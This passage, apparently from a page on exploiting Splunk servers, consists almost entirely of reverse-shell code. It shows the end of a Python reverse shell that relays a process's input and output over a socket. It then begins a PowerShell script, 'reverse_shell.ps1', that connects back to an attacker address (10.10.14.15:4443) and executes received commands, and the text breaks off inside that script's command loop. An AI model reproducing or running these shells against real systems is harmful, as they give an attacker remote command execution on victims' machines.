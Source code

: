 ```python
                    except:
                        break
            
            # Start output threads
            threading.Thread(target=send_output, daemon=True).start()
            threading.Thread(target=send_errors, daemon=True).start()
            
            # Handle input
            while True:
                try:
                    command = sock.recv(1024)
                    if command:
                        process.stdin.write(command)
                        process.stdin.flush()
                    else:
                        break
                except:
                    break
                    
        except Exception as e2:
            pass
            
    finally:
        try:
            sock.close()
        except:
            pass

if __name__ == "__main__":
    establish_reverse_shell()
```

#### PowerShell Reverse Shell Implementation
```powershell
# bin/reverse_shell.ps1 - PowerShell reverse shell for Windows Splunk exploitation

param(
    [string]$AttackerIP = "10.10.14.15",
    [int]$AttackerPort = 4443
)

function Invoke-ReverseShell {
    param($IP, $Port)
    
    try {
        # Create TCP client
        $client = New-Object System.Net.Sockets.TCPClient($IP, $Port)
        $stream = $client.GetStream()
        
        # Send initial connection message
        $greeting = "[+] PowerShell reverse shell established from $env:COMPUTERNAME`n"
        $greetingBytes = [System.Text.Encoding]::ASCII.GetBytes($greeting)
        $stream.Write($greetingBytes, 0, $greetingBytes.Length)
        $stream.Flush()
        
        # Main command loop
        [byte[]]$bytes = 0..65535 | %{0}
        
        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
            $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
            
            try {
                # Execute command and capture output
```